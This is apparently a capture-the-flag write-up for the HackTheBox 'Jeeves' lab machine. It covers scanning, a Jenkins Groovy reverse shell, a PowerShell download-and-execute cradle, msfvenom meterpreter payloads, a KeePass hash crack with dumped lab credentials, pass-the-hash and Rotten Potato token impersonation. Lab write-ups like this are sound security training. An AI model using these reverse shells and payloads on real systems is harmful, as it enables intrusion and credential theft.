



# HackTheBox - Jeeves

### What I Learned

1. Check usr/bin AND usr/sbin for software
2. In windows, you can make files into folders. Check with dir /r
3. Check all ports with gobuster and/or feroxbuster if they are running multiple programs
4. Can use multiple programs to perform a pass-the-hash attack  
   a. pth-winexe  
   b. impacket-psexec  
   c. Crackmapexec?
5. Always check initial application for all types of compromise vectors

<details>
  <summary><strong>Writeup Summary</strong></summary>
  Scan the machine and find a jenkins server running on port 50000. Find a script console where groovy scripts can be executed. Search online and find groovy scripts that might allow you to escalate privileges. Upload a meterpreter shell because the other shell keeps dropping. Once that shell is running, There are 2 ways to get root shell.
  
   1. Enumerate and find a KeePass database file, download it, and get admin credentials. Use it to SMB into the machine as admin and get the flag
   2. Downlad the Unicorn shell command and upload it to the target machine. Run the server and client in Kali and the target, respectively. Catch the shell and check for impersonation tokens. Upload rotten potato and impersonate the administrator user's token and get a root shell.
</details>
   <br>

## Writeup

Scan with NMAP

- `nmap --open -p- 10.129.194.230`
- Target scan the open ports
- `nmap -sV -sC -sT -vv --script=vuln -p 80,135,445,50000 -oA nmap/targeted 10.129.194.230`

Scan with Gobuster and Feroxbuster

- `feroxbuster -u http://10.129.194.230 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x xml`
- Scan port 50000 because there's a server running on that port
- `gobuster dir -u http://10.129.194.230:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o jetty.txt`
  Find a jenkins server on :50000/askjeeves

Go to the jenkins server

- Find a script console where you can execute groovy scripts
  Try this script from github



```
String host="10.10.14.209";
int port=8686;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Try another script to get a powershell
https://coldfusionx.github.io/posts/Groovy_RCE/

```
cmd = """ powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/Invoke-PowerShellTcp.ps1') """
println cmd.execute().txt
```

Create a meterpreter payload because the shell keeps dropping

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.209 LPORT=8686 -f psh -o shell.ps1`

In the file where the shell starts C:\Users\Administrator\.jenkins
Go to secrets file and download all the interesting files

Find a KeePass database file in khosuke's Documents folder



- `Get-ChildItem -Recurse -Filter \*.kdbx -ErrorAction SilentlyContinue`

Copy it over to the kali machine using smb

Convert the database file into a database hash

- `keepass2john CEH.kdbx`
- `hashcat -m 13400 dbkey.hash /usr/share/wordlists/rockyou.txt`
  Get the DB password
  `moonshine1`

Get into the database using keepass2

```
bob : lCEUnYPjNfIuPZSzOySA
administrator:S1TjAtJHKsugh9oC4VZl
Michael321 : 12345
admin : F7WhTrSFDKB6sxHU1cUn
NTLM HASH : aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Try using nxc winrm, ssh, smb with the different user combinations

- `nxc smb/winrm/ssh 10.129.194.230 -u 'administrator' -p 'S1TjAtJHKsugh9oC4VZl'`
  <b>Didn't work</b>

Try passing the hash to get in

- `pth-winexe -U jenkins/administrator //10.10.14.209 cmd.exe`
  <b>Doesn't work</b>

- `impacket-psexec jeeves/administrator@10.129.228.112 -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

- Could try
  - `crackmapexec smb TARGET_IP -u Administrator -H NTHASH --exec-method wmiexec`

## First way to get a shell as admin

- Go to Admin Desktop, but don't find flag
- List Alternate data streams
  - `dir /r`



    There is an alternate data stream in the hm.txt file
    View it from the cmd shell using

- Powershell (Get-Content hm.txt -Stream root.txt)

## Second way to get Shell

Download the unicorn shell command

- https://www.kali.org/tools/unicorn-magic/
- Create the python file and meterpreter.rc file
  - `python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443`
- Start a postgresql server
  - `service postgresql start/stop`

Run the unicorn.rc file in meterpreter

- `Msfconsole -r unicorn.rc`

Get the reverse shell file into the target machine using

- `IEX(New-Object Net.WebClient).downloadString('http://10.10.14.209/UnicornFile.txt')`
- Meterpreter listener will automatically catch upload

In meterpreter shell

- Allows you to check for impersonation tokens
- load incognito

Download Rotten Potato

Copy rotten potato over to the target machine. Use meterpreter shell

- `MSFConsole> cp /path/to/rottenpotato.exe .`
- Wait a few seconds
- `-c -> run in new channel | -H -> hides window of the executed process | -f -> file_to_execute`
- `execute -cH -f rottenpotato.exe`
- Impersonate the admin user
- `impersonate_token "BUILTIN\\Administrators"`

In MSFconsole

- shell
- Then check the admin desktop
